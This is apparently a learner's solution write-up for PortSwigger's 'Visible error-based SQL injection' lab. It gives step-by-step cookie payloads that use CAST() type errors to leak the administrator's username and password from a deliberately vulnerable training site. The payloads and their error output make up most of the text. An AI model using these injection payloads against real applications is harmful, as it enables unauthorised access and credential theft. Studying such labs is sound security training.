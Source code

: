 **Lab: Visible error-based SQL injection** - [**Link**](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)


**Goal:**
Exploit a SQL injection vulnerability that reveals **detailed error messages** and extract the password for the **administrator** account, then log in to solve the lab.


### Step-by-step:


### 1. Confirm SQL Injection

Test with a single quote:

```
TrackingId=HimwF7KYENjCZ5Eh'
```

Returns:

```
Unterminated string literal...
SELECT * FROM tracking WHERE id = 'HimwF7KYENjCZ5Eh''
```

Confirms SQL injection exists.

Comment out rest of the query:

```
TrackingId=HimwF7KYENjCZ5Eh'--
```

→ 200 OK — confirms query is now balanced.


### 2. Trigger Visible Error Using CAST()

Try forcing a type mismatch:

```
TrackingId=HimwF7KYENjCZ5Eh' AND CAST((SELECT 1) AS INT)--
```

Error:

```
argument of AND must be type boolean, not type integer
```

Fix that by using a boolean expression:

```
TrackingId=HimwF7KYENjCZ5Eh' AND 1=CAST((SELECT 1) AS INT)--
```

No error — working test payload.


### 3. Extract Administrator Password Using Error Message

Try:

```
TrackingId=HimwF7KYENjCZ5Eh' AND 1=CAST((SELECT username FROM users) AS INT)--
```

Error: Unterminated string literal → multiple rows likely returned.

Now isolate a single row:

```
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS INT)--
```

Error:

```
invalid input syntax for type integer: "administrator"
```

The query tried to cast the string "administrator" into an integer, which caused the error — this **leaks the first username**.

Now leak the password:

```
TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS INT)--
```

Error:

```
invalid input syntax for type integer: "49xevwmvh30r4e3y0otf"
```

Password leaked: **49xevwmvh30r4e3y0otf**

### 4. Log In and Solve the Lab

Go to login page and use:

* **Username:** administrator
* **Password:** 49xevwmvh30r4e3y0otf

**Lab Solved**
